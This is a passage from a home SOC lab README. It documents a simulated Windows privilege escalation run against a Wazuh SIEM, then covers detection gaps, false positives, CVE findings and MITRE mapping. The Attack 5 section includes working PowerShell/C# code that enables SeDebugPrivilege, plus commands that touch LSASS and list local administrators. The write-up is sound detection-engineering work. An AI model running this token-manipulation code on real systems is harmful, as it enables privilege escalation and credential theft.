

</details>

<details>
<summary>📸 <strong>Expanded Level 12 alert — registry key path visible in message</strong></summary>



</details>

---

### Verdict

✅ **True Positive** — Persistence mechanism detected across 3 rules covering the action, the tool used, and the suspicious value pattern.

> 📄 Full incident report: [`incident_reports/README.md#inc-004`](incident_reports/README.md)

---

## 8. Attack 5 — Privilege Escalation

### Objective

Simulate privilege escalation using PowerShell token manipulation to enable `SeDebugPrivilege`, followed by LSASS process access and local administrator enumeration — to validate Wazuh's detection coverage for token-based privilege escalation techniques.

**MITRE ATT&CK:** T1134 — Access Token Manipulation · T1134.001 — Token Impersonation/Theft · T1057 — Process Discovery

---

### Method

Four commands were executed targeting token manipulation and privilege enumeration:

```powershell
# Command 1 — Check current privileges
whoami /priv

# Command 2 — Enable SeDebugPrivilege via AdjustTokenPrivileges
$definition = @"
using System;
using System.Runtime.InteropServices;
public class AdjPriv {
    [DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]
    internal static extern bool AdjustTokenPrivileges(IntPtr htok, bool disall, ref TokPriv1Luid newst, int len, IntPtr prev, IntPtr relen);
    [DllImport("advapi32.dll", ExactSpelling = true, SetLastError = true)]
    internal static extern bool OpenProcessToken(IntPtr h, int acc, ref IntPtr phtok);
    [DllImport("advapi32.dll", SetLastError = true)]
    internal static extern bool LookupPrivilegeValue(string host, string name, ref long pluid);
    [StructLayout(LayoutKind.Sequential, Pack = 1)]
    internal struct TokPriv1Luid { public int Count; public long Luid; public int Attr; }
    internal const int SE_PRIVILEGE_ENABLED = 0x00000002;
    internal const int TOKEN_QUERY = 0x00000008;
    internal const int TOKEN_ADJUST_PRIVILEGES = 0x00000020;
    public static bool EnablePrivilege(long processHandle, string privilege) {
        bool retVal; TokPriv1Luid tp; tp.Count = 1; tp.Luid = 0; tp.Attr = SE_PRIVILEGE_ENABLED;
        IntPtr hproc = new IntPtr(processHandle); IntPtr htok = IntPtr.Zero;
        retVal = OpenProcessToken(hproc, TOKEN_ADJUST_PRIVILEGES | TOKEN_QUERY, ref htok);
        retVal = LookupPrivilegeValue(null, privilege, ref tp.Luid);
        retVal = AdjustTokenPrivileges(htok, false, ref tp, 0, IntPtr.Zero, IntPtr.Zero);
        return retVal;
    }
}
"@
$processHandle = (Get-Process -id $pid).Handle
Add-Type $definition
[AdjPriv]::EnablePrivilege($processHandle, "SeDebugPrivilege")

# Command 3 — LSASS access simulation
Get-Process lsass

# Command 4 — Local admin group enumeration
net localgroup administrators
```

---

### Alerts Generated

**Baseline:** 3 alerts → **Post-attack:** 10 alerts → **Delta: 7 new alerts**

| Rule ID | Description | Level | Count |
|---|---|---|---|
| 92213 | Executable file dropped in folder commonly used by malware | 15 | 3 (FP) |
| 91815 | PowerShell executing process discovery | 4 | 2 |
| 92031 | Discovery activity executed | 3 | 1 |
| 92033 | Discovery activity spawned via PowerShell execution | 3 | 1 |

**Key Event IDs:** Sysmon 1 · Sysmon 11 · PowerShell 4104

---

### Key Finding — Detection Gap

The core privilege escalation technique — `AdjustTokenPrivileges` enabling `SeDebugPrivilege` — was **not directly alerted** by Wazuh's default rules. Windows Event ID 4672 (Special Privileges Assigned to New Logon) was confirmed present in Event Viewer but did not trigger a Wazuh rule.

```
SeDebugPrivilege enabled     →  Event ID 4672  →  ❌ No Wazuh rule fired
LSASS access attempted       →  Sysmon 1       →  ⚠️  Caught as process discovery
Admin group enumerated       →  Sysmon 1       →  ✅  Rule 92031 fired
Token code compiled to Temp  →  Sysmon 11      →  ✅  Rule 92213 fired (FP)
```

The Level 15 alerts were the same false positive pattern as INC-002 — the inline C# token manipulation code was compiled into a temporary file in `AppData\Local\Temp\`, triggering the file dropper rule.

**Detection gap identified:** Wazuh's default ruleset does not cover Event ID 4672 with `SeDebugPrivilege` in the privilege list. A custom rule would be required to close this gap.

---

### Screenshots

<sub>📷 Click any screenshot below to expand</sub>

<details>
<summary>📸 <strong>Wazuh Discover — baseline before attack</strong></summary>



</details>

<details>
<summary>📸 <strong>PowerShell commands — token manipulation and LSASS access</strong></summary>



</details>

<details>
<summary>📸 <strong>Wazuh Discover — alert table showing partial detection</strong></summary>



</details>

<details>
<summary>📸 <strong>Expanded alert detail — process discovery and file drop events</strong></summary>



</details>

---

### Verdict

⚠️ **Partial Detection** — Surrounding discovery activity caught but core token manipulation technique missed. Event ID 4672 detection gap identified and documented.

> 📄 Full incident report: [`incident_reports/README.md#inc-005`](incident_reports/README.md)

---

## 9. Vulnerability Assessment

### Overview

Beyond the planned attack simulations, Wazuh's built-in **Vulnerability Detection** module passively scanned the Windows endpoint and identified real unpatched CVEs. This was an unplanned but significant finding — the lab not only detected simulated attacks but also surfaced genuine vulnerabilities on the target system.

---

### Vulnerabilities Detected

| CVE ID | Severity | Description | Relevance |
|---|---|---|---|
| CVE-2026-21533 | 🔴 High | Improper privilege management in Windows Remote Desktop — local privilege escalation | Directly related to Attack 5 |
| CVE-2026-21519 | 🔴 High | Type confusion in Desktop Window Manager — local privilege escalation | Local escalation vector |
| CVE-2026-21513 | 🔴 High | Protection mechanism failure in MSHTML Framework — security feature bypass over network | Remote attack surface |
| CVE-2026-21255 | 🔴 High | Improper access control in Windows Hyper-V — local security feature bypass | Relevant to VM environment |
| CVE-2026-21253 | 🔴 High | Use after free in Mailslot File System — local privilege escalation | Escalation vector |
| CVE-2026-21244 | 🔴 High | Heap-based buffer overflow in Windows Hyper-V — local code execution | Critical — code execution |

**Affected Package:** Microsoft Windows 10 Pro `10.0.19045.6456`
**Agent:** Win10-Endpoint

---

### Key Observation

Three of the six CVEs are privilege escalation vulnerabilities — directly relevant to Attack 5. In a real SOC environment this finding would:

- Immediately trigger a **patch management workflow**
- Escalate to the vulnerability management team
- Inform the threat model — an attacker who gains initial access has multiple unpatched escalation paths available

> ⚠️ This demonstrates that Wazuh functions as more than a SIEM — the vulnerability detection module provides passive asset intelligence that directly informs the risk picture of monitored endpoints.

---

### Screenshots

<sub>📷 Click any screenshot below to expand</sub>

<details>
<summary>📸 <strong>Wazuh Vulnerability Detection — all 6 CVEs listed with severity</strong></summary>



</details>

<details>
<summary>📸 <strong>CVE detail — description and affected package visible</strong></summary>



</details>

---

## 10. MITRE ATT&CK Coverage

### Techniques Detected

| Tactic | Technique | ID | Attack | Detected |
|---|---|---|---|---|
| Credential Access | Brute Force — Password Guessing | T1110.001 | INC-001 | ✅ |
| Execution | PowerShell | T1059.001 | INC-002 | ✅ |
| Execution | Windows Command Shell | T1059.003 | INC-003 | ✅ |
| Defense Evasion | Obfuscated Files — Base64 | T1027 | INC-002 | ✅ |
| Defense Evasion | Masquerading | T1036 | INC-004 | ✅ |
| Discovery | Process Discovery | T1057 | INC-002, INC-005 | ✅ |
| Discovery | System Information Discovery | T1082 | INC-003 | ✅ |
| Discovery | Account Discovery — Local Account | T1087.001 | INC-003, INC-005 | ✅ |
| Persistence | Registry Run Keys / Startup Folder | T1547.001 | INC-004 | ✅ |
| Privilege Escalation | Access Token Manipulation | T1134 | INC-005 | ⚠️ Partial |
| Privilege Escalation | Token Impersonation/Theft | T1134.001 | INC-005 | ⚠️ Partial |

---

### Coverage Summary

```
Credential Access    ████████████████████  1/1  100%
Execution            ████████████████████  2/2  100%
Defense Evasion      ████████████████████  2/2  100%
Discovery            ████████████████████  3/3  100%
Persistence          ████████████████████  1/1  100%
Privilege Escalation ██████████░░░░░░░░░░  1/2   50%  ← detection gap
```

### Screenshots

<sub>📷 Click any screenshot below to expand</sub>

<details>
<summary>📸 <strong>Wazuh MITRE ATT&CK matrix — highlighted techniques from simulation</strong></summary>



</details>

<details>
<summary>📸 <strong>MITRE ATT&CK events view — technique IDs mapped to specific alerts</strong></summary>



</details>

---

## 11. False Positives & Detection Gaps

### False Positives Identified

| Alert | Rule ID | Level | Root Cause | Verdict |
|---|---|---|---|---|
| Executable dropped in malware-used folder | 92213 | 15 | `-ExecutionPolicy Bypass` creates `__PSScriptPolicyTest_*` in `AppData\Local\Temp\` — legitimate Windows OS behaviour | FP |
| Executable dropped in malware-used folder | 92213 | 15 | Token manipulation C# code compiled to temp file by PowerShell `Add-Type` | FP |
| DLL search order hijack | 92219 | 6 | Windows Update staging `fvereseal.dll` — BitLocker component dropped during update download | FP |
| Value added to registry has Base64-like pattern | 92041 | 10 | Registry value filepath resembled encoded string but was plaintext | Low confidence FP |

**Key Takeaway:** All four false positives were identified through investigation of the `data.win.system.message` field. The filename, parent process, and timing all provided the context needed to dismiss the alerts confidently. This is exactly the workflow a Tier 1 SOC analyst follows during alert triage.

---

### Detection Gaps Identified

| Gap | Attack | Missing Event | Impact | Recommended Fix |
|---|---|---|---|---|
| SeDebugPrivilege enablement not alerted | INC-005 | Windows 4672 — Special Privileges Assigned | High — token manipulation missed entirely | Custom Wazuh rule: Event ID 4672 + `SeDebugPrivilege` in privilege list |
| PowerShell encoded command partial coverage | INC-002 | PowerShell 4104 | Medium — some encoded commands not alerted | Tune rules 92057 and 91837 · Enable AMSI integration |

**Key Takeaway:** Detection gaps are not failures — they are **findings**. Identifying what a SIEM misses is as valuable as identifying what it catches. Both gaps documented here would be the starting point for a detection engineering sprint in a real SOC.

---

## 12. Lessons Learned

### 1 — SIEM Deployment ≠ Detection Coverage

The privilege escalation attack demonstrated that having a working SIEM pipeline does not guarantee detection. Event ID 4672 was present in Windows logs — Wazuh simply had no default rule to act on it. Meaningful detection requires ongoing rule development aligned to the specific techniques being defended against.

### 2 — Silent Log Collection Failures Are a Real Risk

Early in Phase 3, Sysmon events were present in Windows Event Viewer but completely absent from Wazuh Discover. The cause was a misconfigured `ossec.conf` — multiple log source locations combined into a single `<localfile>` block, which caused the Sysmon channel to be silently dropped.

```xml
<!-- ❌ What was causing the silent failure -->
<localfile>
  <location>Security</location>
  <location>Microsoft-Windows-Sysmon/Operational</location>
  <location>Microsoft-Windows-PowerShell/Operational</location>
  <log_format>eventchannel</log_format>
</localfile>

<!-- ✅ Correct — one block per source -->
<localfile>
  <location>Microsoft-Windows-Sysmon/Operational</location>
  <log_format>eventchannel</log_format>
</localfile>
```

In a production environment this misconfiguration would have left an entire telemetry source invisible to the SIEM with no warning. Always validate that expected log sources are actively appearing in Discover — not just that the agent is running.

### 3 — Alert Severity Requires Context

The Level 15 false positive from Attack 2 is a clear example of why raw severity scores cannot be acted on blindly. A maximum severity alert triggered by legitimate Windows OS behaviour — a policy test file created by `-ExecutionPolicy Bypass`. Without investigation the correct response would have been unclear. Context from the filename, parent process, and event timing resolved it in under a minute.

### 4 — Background Noise Is Part of the Job

The Windows Update DLL alert (`fvereseal.dll`) appeared repeatedly throughout the session — a background false positive completely unrelated to any attack. In a real SOC this would be identified, whitelisted, and tuned out so it doesn't consume analyst attention. Recognising recurring background noise is a core Tier 1 skill.

### 5 — Detection Gaps Are Findings Worth Documenting

The missing Event ID 4672 coverage is not just a gap — it is actionable intelligence. It tells exactly what custom rule needs to be written, what event to target, and what field value to match. Documenting this is more useful than pretending it never happened.

---

## 13. Phase Summary

### Attack Results

| # | Attack | Alerts | Peak Level | Detection | Verdict |
|---|---|---|---|---|---|
| INC-001 | Brute Force Login | 11 | 10 | ✅ Full | True Positive |
| INC-002 | Suspicious PowerShell | 14 | 15 | ✅ Full | TP + FP identified |
| INC-003 | Abnormal Process Execution | 33 | 15 | ✅ Full | True Positive |
| INC-004 | Registry Persistence | 3 | 12 | ✅ Full | True Positive |
| INC-005 | Privilege Escalation | 7 | 15 | ⚠️ Partial | Partial + gap identified |

### Phase Checklist

| Objective | Status |
|---|---|
| 5 attack simulations executed | ✅ |
| Wazuh alerts captured for each attack | ✅ |
| All alerts triaged and classified | ✅ |
| False positives identified and explained | ✅ |
| Detection gaps documented | ✅ |
| MITRE ATT&CK mapping completed | ✅ |
| Incident reports written for all 5 attacks | ✅ |
| Vulnerability assessment captured | ✅ |
| Lessons learned documented | ✅ |

### What This Phase Demonstrated

This phase went beyond simply running attacks and watching alerts fire. It demonstrated:

- How to **establish baselines** before testing
- How to **distinguish true positives from false positives** through investigation
- How to **identify and document detection gaps** rather than ignore them
- How to **correlate SIEM alerts to MITRE ATT&CK techniques**
- How to approach alert triage the way a **Tier 1 SOC analyst** would on shift

The lab now has a complete end-to-end pipeline — from endpoint activity, through Sysmon telemetry, through the Wazuh SIEM, to investigated and documented incidents.

---

---

<div align="center">

*SOC Home Lab Series by [Krish Patel](https://github.com/kripy17)*

<br>

<a href="../phase-1-wazuh-deployment">Phase 1: SIEM Infrastructure</a> ✅ &nbsp;·&nbsp;
<a href="../phase-2-windows-sysmon">Phase 2: Windows + Sysmon</a> ✅ &nbsp;·&nbsp;
<a href="../README.md">Main README</a>

</div>
